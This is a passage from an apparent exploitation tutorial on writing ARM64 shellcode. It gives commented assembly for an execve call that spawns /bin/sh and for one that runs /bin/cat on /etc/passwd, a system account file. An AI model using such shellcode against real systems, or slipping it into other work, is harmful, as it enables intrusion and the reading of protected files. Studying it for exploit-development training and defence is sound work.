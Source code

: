 ```armasm
    svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

```

{{#endtab}}

{{#tab name="with adr for linux"}}

```armasm
; From https://8ksec.io/arm64-reversing-and-exploitation-part-5-writing-shellcode-8ksec-blogs/
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
    adr  x0, sh_path  ; This is the address of "/bin/sh".
    mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
    mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.
    mov  x16, #59     ; Move the execve syscall number (59) into x16.
    svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

sh_path: .asciz "/bin/sh"
```

{{#endtab}}
{{#endtabs}}

#### Read with cat

The goal is to execute `execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)`, so the second argument (x1) is an array of params (which in memory these means a stack of the addresses).

```armasm
.section __TEXT,__text     ; Begin a new section of type __TEXT and name __text
.global _main              ; Declare a global symbol _main
.align 2                   ; Align the beginning of the following code to a 4-byte boundary

_main:
    ; Prepare the arguments for the execve syscall
    sub sp, sp, #48        ; Allocate space on the stack
    mov x1, sp             ; x1 will hold the address of the argument array
    adr x0, cat_path
    str x0, [x1]           ; Store the address of "/bin/cat" as the first argument
    adr x0, passwd_path    ; Get the address of "/etc/passwd"
    str x0, [x1, #8]       ; Store the address of "/etc/passwd" as the second argument
    str xzr, [x1, #16]     ; Store NULL as the third argument (end of arguments)

    adr x0, cat_path
    mov x2, xzr            ; Clear x2 to hold NULL (no environment variables)
    mov x16, #59           ; Load the syscall number for execve (59) into x8
    svc 0                  ; Make the syscall

cat_path: .asciz "/bin/cat"
.align 2
passwd_path: .asciz "/etc/passwd"
```
